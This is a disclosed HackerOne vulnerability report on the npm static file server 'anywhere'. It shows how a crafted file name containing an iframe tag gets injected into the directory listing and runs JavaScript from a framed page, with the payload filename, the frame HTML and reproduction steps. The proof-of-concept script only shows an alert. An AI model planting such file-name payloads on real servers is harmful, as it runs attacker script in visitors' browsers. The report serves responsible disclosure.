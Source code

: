 # [anywhere] An iframe element with url to malicious HTML file (with eg. JavaScript malware) can be used as filename and served via anywhere

## Report Details
- **Report ID**: 309394
- **URL**: https://hackerone.com/reports/309394
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2018-01-25T22:02:33.743Z
- **Disclosed**: 2018-02-26T21:36:11.607Z

## Reporter
- **Username**: bl4de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hi Guys,

**anywhere** allows to embed HTML in file names, which (in certain conditions) might lead to execute malicious JavaScript.

**Module:** 

Running static file server anywhere.

https://www.npmjs.com/package/anywhere

**Description**



To embed malicious ```<script>``` tag with JavaScript code to execute, ```/``` character is necessary.
In all operating systems, ```/``` is not allowed as a character used in file name. This means there is very few option to craft an attack using file name as injection point.

## Steps To Reproduce:

However, if attacker wants to, one can still use some tricks and change one of the filenames into something like following example:

```
"><iframe src="malware_frame.html">
```

Then, HTML file with following content have to be saved in the same directory as file with the name changed:

```html
<html>

<head>
    <meta charset="utf8" />
    <title>Frame embeded with malware :P</title>
</head>

<body>
    <p>iframe element with malicious code</p>
    <script type="text/javascript" src="malware.js"></script>
</body>

</html>
```

An ```src``` attribute value I've used here is just for PoC purpose, this can be any external url.
On my local machine, ```malware.js``` has following content:

```javascript
alert('Uh oh, I am very bad malware!')
```

Now, if you run ```anywhere``` in directory where both file with filename changed and ```malware_frame.html``` are saved:

```
$ ./node_modules/anywhere/bin/anywhere -p 8080
Running at http://192.168.1.1:8080/
Also running at https://192.168.1.1:8081/
```

and open ```http://127.0.0.1:8080``` in the browser, you can see JavaScript from ```malware.js``` is executed:

{F257400}

## Supporting Material/References:

Configuration I've used to find this vulnerability:

- macOS HighSierra 10.13.3
- node 8.9.3
- npm 5.5.1
- curl 7.54.0

## Wrap up

I hope this report will help to keep Node ecosystem more safe. If you have any questions about any details of this finding, please let me know in comment.

Thank you

Regards,

Rafal 'bl4de' Janicki

## Impact

Exploitation of this vulnerability in the wild might be hard, however it's not impossible and it depends only on attacker's skills to get into directory on the server, where ```anywhere``` is used to serve static content.

## Attachments
- 1.png
